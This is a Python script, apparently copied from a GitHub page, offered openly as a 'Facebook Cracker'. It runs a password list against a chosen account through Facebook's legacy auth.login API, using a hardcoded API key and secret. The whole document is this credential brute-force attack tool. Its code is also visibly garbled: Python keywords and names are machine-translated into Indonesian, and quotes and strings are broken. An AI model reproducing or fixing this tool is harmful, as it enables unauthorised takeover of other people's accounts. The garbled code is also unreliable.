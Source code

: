 ## fbbrute.py - Facebook Brute Force
# - * - pengkodean: utf-8 - * -
##
impor  os
impor  sys
impor  urllib
impor  hashlib

API_SECRET  =  "62f8ce9f74b12f84c123cc23437a4a32"

__banner__  =  "" "
       + ======================================= +
       | .......... Facebook Cracker v 1 ......... |
       + --------------------------------------- +
       | # Penulis: Stephin-Franklin |
       | #Instagram: st1chb45h |
       | #Github: Stephin-Franklin |
       | #YouTube: Anonymous Tim3 |
       | BERLANGGANAN SALURAN YOUTUBE KAMI |
       | |
       + ======================================= +
       | .......... Facebook Cracker v 1 ......... |
       + --------------------------------------- +
"" "

cetak ( "[+] Facebook Brute Force \ n " )
userid  =  raw_input ( "[*] Masukkan [Email | Telepon | Nama Pengguna | ID]:" )
coba :
	passlist  =  raw_input ( "[*] Setel PATH ke daftar sandi:" )
	jika  os . jalan . ada (daftar sandi ) ! =  Salah :
		cetak ( __banner__ )
		print ( "[+] Akun untuk dipecahkan: {}" . format ( userid ))
		print ( "[+] Loaded: {}" . format ( len ( open ( passlist , "r" ). read (). split ( " \ n " ))))
		print ( "[+] Cracking, please wait ..." )
		untuk  passwd  di  buka ( passlist , 'r' ). garis baca ():
			sys . stdout . tulis ( u " \ u001b [1000D [*] Mencoba {}" . format ( passwd . strip ()))
			sys . stdout . flush ()
			sig  =  "api_key = 882a8490361da98702bf97a021ddc14dcredentials_type = passwordemail = {} format = JSONgenerate_machine_id = 1generate_session_cookies = 1locale = en_USmethod = auth.loginpassword = {} return_ssl_resources = 0V = 1.0 {}" . format ( userid , passwd . strip (), API_SECRET )
			xx  =  hashlib . md5 ( sig ). hexdigest ()
			data  =  "api_key = 882a8490361da98702bf97a021ddc14d & credentials_type = password & email = {} & format = JSON & generate_machine_id = 1 & generate_session_cookies = 1 & locale = en_US & method = auth.login & password = {} & return_ss & v = 1.0 . format ( userid , passwd . strip (), xx )
			respon  =  urllib . urlopen ( "https://api.facebook.com/restserver.php? {}" . format ( data )). baca ()
			jika  "kesalahan"  sebagai  tanggapan :
				lulus
			lain :
				cetak ( " \ n \ n [+] Kata sandi ditemukan .. !!" )
				mencetak ( " \ n [+] Password: {}" . Format ( passwd . Strip ()))
				istirahat
		cetak ( " \ n \ n [!] Selesai .. !!" )
	lain :
		print ( "FBCrack: error: Tidak ada file atau direktori seperti itu" )
kecuali  KeyboardInterrupt :
	print ( "FBCrack: error: Keyboard interrupt" )
